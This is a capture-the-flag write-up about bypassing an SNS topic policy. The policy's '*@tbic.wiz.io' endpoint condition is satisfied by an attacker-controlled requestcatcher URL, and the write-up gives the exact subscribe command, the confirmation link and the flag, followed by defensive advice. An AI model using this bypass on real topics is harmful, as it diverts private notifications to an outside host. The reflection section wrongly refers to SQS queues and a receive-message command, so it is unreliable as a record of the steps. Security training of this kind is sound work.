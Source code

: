 # Challenge number
Challenge: 3

## Challenge Statement
In this challenge, I was tasked with subscribing to an SNS topic and confirming the subscription. The IAM policy provided in the challenge allowed me to subscribe to the TBICWizPushNotifications SNS topic if the endpoint matched the specified condition *@tbic.wiz.io. My goal was to subscribe using a valid endpoint and confirm the subscription to receive notifications.

## IAM Policy
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
### write a short analysis about the IAM policy here
**What do I have access to?**

The IAM policy allows public access for subscribing to the SNS topic with the SNS:Subscribe action. The policy specifies that anyone can subscribe, but only endpoints with the domain @tbic.wiz.io are permitted through the condition sns:Endpoint. This means anyone can interact with the topic as long as the provided endpoint meets the specified condition.

**What don't I have access to?**
While I have the permission to subscribe, I do not have access to perform any other administrative tasks related to the SNS topic. This includes actions such as publishing messages to the topic, modifying the topic's settings, or removing subscriptions. The policy grants permission for subscribing but doesn't provide broader control over the SNS topic itself.

**What do I find interesting?**
The policy's allowance for any principal (i.e., anyone) to subscribe, as long as the endpoint matches @tbic.wiz.io, is intriguing because it balances openness with a condition. While this might seem like a flexible setup, the openness of AWS: * raises concerns, as anyone could exploit this by creating an endpoint matching the condition. It’s an interesting design choice, but it could lead to unintended exposure of the service.

**What could an attacker do with this access?**
An attacker could potentially abuse this access by subscribing a malicious endpoint that matches the @tbic.wiz.io condition. Once subscribed, the attacker could receive sensitive notifications or data sent to the topic. Since there is no further control on the subscription beyond the endpoint condition, attackers could gather confidential information or trigger unintended actions if the topic sends alerts or triggers workflows upon new messages.
  
**How could this misconfiguration have been avoided?**
This misconfiguration could have been avoided by tightening the permissions around who is allowed to subscribe to the SNS topic. Instead of allowing open access with AWS: *, a more secure setup would restrict access to specific, trusted AWS identities (IAM roles or users). Furthermore, a more granular condition, such as IP address restrictions or more specific endpoint checks, could be applied. Additionally, confirming subscriptions only from known, trusted endpoints would help avoid malicious subscriptions.


## Solution
**Step-1: Capture the Flag Using Requestcatcher**
To begin the process, I used Requestcatcher to create a temporary endpoint to subscribe to the SNS topic. This would allow me to receive the messages sent by the SNS topic.
```
https://requestcatcher.com/
```
**Step-2: Subscribe to the SNS Topic**
To subscribe to the SNS topic, I used the aws sns subscribe command, specifying the topic ARN and the endpoint that matches the required condition (@tbic.wiz.io).
```
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint 'https://ashish.requestcatcher.com/test@tbic.wiz.io'
```

**Step 3: Confirm the Subscription**
After subscribing, SNS sent a confirmation message to the provided endpoint. To confirm the subscription, I accessed the confirmation link provided in the message. The URL included a Token parameter that I used to confirm the subscription.
```
https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a5872376d572991ca2da28f73768f1d8b95ea0f71895f216143f2f1037cc2ea5795e8b34921442cff336606b3cb79056939a430c18dea0854ec15350ecd88fda926cac07c59061146a0af550e5fab5d7e0a4c29d2cf5ddcc7ded4c8b33b5f2ad181ec8f386ad8e71e01227dbb98985917a9

```
Once I clicked the confirmation link, the subscription was confirmed, and I was able to receive notifications from the SNS topic.

**Step 4: Receive the Message**
After confirming the subscription, I started receiving messages from the SNS topic. These messages contained the relevant information, including the flag or other useful data, which I could then extract for further use.
```
flag: {wiz:always-suspect-asterisks}
```
Step 5: Submit the Flag: Finally, I submitted the retrieved flag on the challenge platform.

## Reflection
**What was your approach?**
My approach involved understanding the specific condition in the IAM policy, which restricted access to endpoints ending with @tbic.wiz.io. Once I understood that, I focused on subscribing to the SNS topic with the correct endpoint and confirmed my subscription before proceeding with the rest of the process.
  
**What was the biggest challenge?**
The biggest challenge was ensuring my endpoint matched the condition specified in the IAM policy (@tbic.wiz.io). Once that was clear, I followed the SNS subscription and confirmation steps carefully.
  
**How did you overcome the challenges?**
I overcame this challenge by reviewing the IAM policy to understand the condition and selecting an appropriate endpoint. Using the AWS CLI, I tested different commands to confirm I had the correct permissions to subscribe to the SNS topic and receive messages.
  
**What led to the break through?**
The breakthrough came when I successfully executed the receive-message command, which allowed me to pull messages from the queue. I then found the message containing the flag, marking the success of the process.
  
**On the blue side, how can the learning be used to properly defend the important assets?**
This experience reinforced the importance of the principle of least privilege. To protect critical assets, like SQS queues, organizations should avoid granting overly broad permissions and restrict access to only trusted users or services. Regular audits and reviews of IAM policies help minimize the risk of unauthorized access and prevent security vulnerabilities.
